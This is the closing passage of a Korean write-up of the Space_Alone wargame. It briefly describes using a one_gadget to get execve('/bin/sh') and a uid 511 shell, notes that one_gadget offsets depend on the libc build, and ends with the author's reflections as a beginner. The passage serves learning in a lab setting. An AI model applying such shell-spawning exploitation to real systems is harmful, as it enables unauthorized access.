

one_gadget이 맞으면 `execve("/bin/sh", NULL, NULL)`이 돌아 uid 511(epilogue) 셸이 떨어진다. `status`를 치면 `All clear!!`가 뜨고, 이걸로 게임 전체가 끝난다. uid 511 셸에서 `./get_vaccine`을 실행하면 백신과 엔딩 연출이 재생된다.

> 부록: one_gadget 주소는 libc 빌드가 조금만 달라도 아예 존재하지 않거나 제약이 통째로 바뀐다. 그래서 어디서 본 주소든 그대로 가져다 쓰면 안 되고, 내 libc에서 직접 뽑은 뒤 복귀 시점의 레지스터 상태로 조건이 맞는 걸 골라야 한다는 걸 이 챕터에서 배웠다.

---

## 마치며

선행 학습이 전혀 안 된 상태에서 이 문제를 시작했다. CTF나 워게임을 한 번도 해 본 적 없이 그대로 머리를 박은 셈이라 다 풀고 난 지금은 뿌듯함과 아쉬움이 함께 남는다.

아무것도 모르고 시작한 만큼 문제를 푸는 것 자체보다는 10개의 챕터를 거치면서 이런 문제 유형과 취약점이 있고 각각 어떤 공격 기법으로 풀리는지를 알아 가는 데 초점을 뒀다. 처음 하는 워게임이라 스스로 해낼 수 있는 부분이 많지 않아서 AI의 도움을 많이 받았는데, 이런 공격들이 있다는 걸 익히는 게 목적이었다는 점에서는 성공한 것 같다.

다만 그만큼 아쉬움도 있다. 챕터를 풀면서 든 생각인데 다른 워게임이나 보안 공부를 어느 정도 한 뒤에 이 미션을 했다면 혼자 힘으로 풀어낸 부분이 더 많았을 테고 그만큼 더 성장했을 것 같다. 이 미션을 조금 나중에 했으면 어땠을까 하는 생각이 남는다. 그래도 완전히 처음인 상태에서 시스템 해킹의 큰 그림을 한 바퀴 돌아봤다는 데 의미를 두려고 한다.

## 참고 자료

- 공식 저장소: <https://github.com/hspace-io/Space_Alone>
